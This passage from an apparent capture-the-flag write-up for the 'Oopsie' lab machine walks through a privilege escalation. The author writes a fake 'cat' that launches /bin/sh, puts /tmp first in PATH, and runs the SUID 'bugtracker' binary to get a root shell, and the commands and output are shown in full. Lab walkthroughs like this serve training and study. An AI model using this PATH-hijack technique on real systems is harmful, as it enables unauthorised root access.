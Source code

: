 We see that the script is using 'cat' to print its contents. We can utilize this to create a command with the content : `          /bin/sh` 

```bash
robert@oopsie:/tmp$ echo "/bin/sh" > cat    
echo "/bin/sh" > cat
```

Let's elevate the privileges for this file to allow execution.

`          robert@oopsie:/tmp$ chmod +x cat`          

Next, we're going to add the directory containing that file to the PATH variable to make it an executable command

`          robert@oopsie:/tmp$ export PATH=/tmp:$PATH`          

check 

> ```bash
> echo $PATH
> /tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
> ```



Finally, execute our 'bugtracker' from the 'tmp' directory.



```bash
robert@oopsie:/tmp$ bugtracker
bugtracker

------------------
: EV Bug Tracker :
------------------

Provide Bug ID: 

1
1
---------------

# whomai
whomai
/bin/sh: 1: whomai: not found
# whoami
whoami
root

```

Now we only have to find root flag .

